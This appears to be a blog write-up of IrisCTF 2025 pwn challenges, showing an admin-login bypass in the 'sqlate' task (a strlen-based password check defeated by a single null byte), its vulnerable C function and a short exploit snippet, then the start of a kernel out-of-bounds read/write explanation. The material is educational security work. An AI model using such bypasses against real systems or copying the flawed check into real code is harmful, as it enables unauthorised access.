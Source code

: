 ```yaml
---
layout: page
title: "Iris CTF 2025 Pwn"
date: 2025-01-10 00:00:00 -0000
---
```


This is a writeup of 3 Pwn tasks from IrisCTF2025, held on January 5th-6th.

The exploit I created can be found [here](https://github.com/jt00000/ctf.writeup/tree/master/iris2025)

# sqlate

The admin password is randomly generated and cannot be predicted.

The bug is in the password verification process `action_login`.In this function,verification is based on the input length checked by `strlen`. Therefore, if the password is a single null character, `length` becomes 0, and you will be able to log in.

```c
void action_login() {
    // Currently only admin login
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }

    strcpy(current_user.username, "admin");
    current_user.userId = 0;
    current_user.flags = 0xFFFFFFFF;
}
```

```
sendlineafter(b'> ', b'5')
sendlineafter(b': ', b'\x00')
sendlineafter(b'> ', b'7')
```

# Checksumz

This is a kernel task. There are many helpful scripts and Makefiles which I learned a lot from them.

The bug is simple: it doesn't check the remaining size of the buffer from `pos`, so it can read and write adjacent addresses.
